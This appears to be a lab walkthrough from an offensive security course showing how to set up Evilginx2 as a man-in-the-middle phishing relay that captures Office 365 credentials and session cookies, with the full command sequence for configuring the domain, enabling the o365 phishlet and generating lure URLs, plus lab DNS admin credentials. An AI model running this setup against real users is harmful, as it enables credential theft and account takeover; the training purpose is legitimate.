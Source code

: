 # Initial Access - Phishing - Evilginx2

- We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.

- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

- It uses phishlets that are configuration files for specific target domains.
These are YAML files that specify conditions like hosts, filters, structure
of authentication cookies and credentials.

#### Starting Evilginx2

- Evilginx2 is already setup on the student VMs. We can use the following commands.
- Start evilginx2:
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```
- Configure the domain:
```
config domain studentx.corp
```
- Set the IP for the evilginx server:
```
config ip 172.16.x.x
```
- Use the template for Office 365:
```
phishlets hostname o365 login.studentx.corp
```
- Verify the DNS entries:
```
phishlets get-hosts o365
```

#### Setup DNS
You can access DNS Server by browsing to ```http://172.16.2.50:5380/``` from your student VM and using the following details:
```
username: admin
password: admin@123
```

#### next
- Copy the certificate and private key - o365.crt and o365.key from:
```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

- Enable phishlets:
```phishlets enable o365```
-  Create the phishing URL (tied to an ID):
```lures create o365```
- Get the phishing URL
```lures get-url <ID>```
- Share the URL with the victim. (For the lab, send an email using your personal email).
